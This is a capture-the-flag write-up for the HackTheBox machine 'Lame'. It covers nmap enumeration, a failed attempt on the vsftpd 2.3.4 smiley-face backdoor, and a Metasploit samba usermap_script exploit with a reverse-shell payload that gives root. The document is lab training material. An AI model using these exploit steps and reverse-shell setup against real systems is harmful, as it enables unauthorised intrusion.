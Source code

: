 ```yaml
---
layout: post
title:  "HackTheBox - Lame"
date:   2017-08-21 00:00:00 +0100
categories: [hackthebox]
description: Solutions for HackTheBox Lame
image:
  feature: lame.jpg
  credit:
  creditlink:
---
```

This writeup details attacking the machine Lame (10.10.10.3) on [HackTheBox](www.hackthebox.eu).

Enumeration
-----------
First things first, as with any machine, we want to nmap scan it to see what ports are open.  
```bash
root@kali:~/reboare.github.io/_posts# nmap -p- 10.10.10.3 -T4

Nmap scan report for 10.10.10.3
Host is up (0.062s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 437.65 seconds
```
So we have a bunch of ports open, the next step is to perform a more in depth scan on these ports.

```bash
root@kali:~/reboare.github.io/_posts# nmap -p 21,22,139,445,3632 10.10.10.3 -A

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:21 BST
Nmap scan report for 10.10.10.3
Host is up (0.17s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP
|_  System time: 2017-08-18T03:23:21-04:00

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   168.26 ms 10.10.14.1
2   251.04 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.89 seconds
```
THe first target that looks like it would be exploitable is the ftp server version, vsftpd 2.3.4.  For those who don't know, this version of vsftpd was compromised, not via the source code, but by an exploitable version being uploaded to the master site.  Exploiting it is as simple as sending a smiley-face ':)' as the username credential.  This will then open a shell on port 6200.  

However, a quick and dirty test reveals that this method doesn't work.
```bash
root@kali:~# ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): :)
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
root@kali:~# nmap -p 6200 10.10.10.3

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:26 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
PORT     STATE    SERVICE
6200/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```
Since there was no fix to the source code, fixing this vulnerability didn't necessitate a version change.  This was just placed as a red-herring.

So with that failing lets attempt to attack the samba service.  We can see from the namp scan that it's running version 3.0.20, so lets check metasploit to see if anything pops up.

```bash
msf > search samba
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                            Disclosure Date  Rank       Description
   ----                                            ---------------  ----       -----------
   auxiliary/admin/smb/samba_symlink_traversal                      normal     Samba Symlink Directory Traversal
   auxiliary/dos/samba/lsa_addprivs_heap                            normal     Samba lsa_io_privilege_set Heap Overflow
   auxiliary/dos/samba/lsa_transnames_heap                          normal     Samba lsa_io_trans_names Heap Overflow
   auxiliary/dos/samba/read_nttrans_ea_list                         normal     Samba read_nttrans_ea_list Integer Overflow
   auxiliary/scanner/rsync/modules_list                             normal     List Rsync Modules
   auxiliary/scanner/smb/smb_uninit_cred                            normal     Samba _netr_ServerPasswordSet Uninitialized Credential State
   exploit/freebsd/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (*BSD x86)
   exploit/linux/samba/chain_reply                 2010-06-16       good       Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/lsa_transnames_heap         2007-05-14       good       Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap          2012-04-10       normal     Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open                  2003-04-07       great      Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans                     2003-04-07       average    Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   exploit/multi/samba/usermap_script              2007-05-14       excellent  Samba "username map script" Command Execution
   exploit/osx/samba/lsa_transnames_heap           2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/osx/samba/trans2open                    2003-04-07       great      Samba trans2open Overflow (Mac OS X PPC)
   exploit/solaris/samba/lsa_transnames_heap       2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/solaris/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (Solaris SPARC)
   exploit/unix/misc/distcc_exec                   2002-02-01       excellent  DistCC Daemon Command Execution
   exploit/unix/webapp/citrix_access_gateway_exec  2010-12-21       excellent  Citrix Access Gateway Command Execution
   exploit/windows/fileformat/ms14_060_sandworm    2014-10-14       excellent  MS14-060 Microsoft Windows OLE Package Manager Code Execution
   exploit/windows/http/sambar6_search_results     2003-06-21       normal     Sambar 6 Search Results Buffer Overflow
   exploit/windows/license/calicclnt_getconfig     2005-03-02       average    Computer Associates License Client GETCONFIG Overflow
   exploit/windows/smb/group_policy_startup        2015-01-26       manual     Group Policy Script Execution From Shared Resource
   post/linux/gather/enum_configs                                   normal     Linux Gather Configurations
```
Quite a few exploits for samba, but doing some research reveals that samba/usermap_script targets versions `3.0.20 through 3.0.25rc3`.  So lets try that one.
```bash
msf > use exploit/multi/samba/usermap_script 
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(usermap_script) > set LHOST 10.10.13.126
LHOST => 10.10.13.126

msf exploit(usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.13.126:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo g2J1cK9h6SBFE0RL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "g2J1cK9h6SBFE0RL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.13.126:4444 -> 10.10.10.3:50926) at 2017-05-17 17:31:24 +0100
```
It works and we have a root shell.
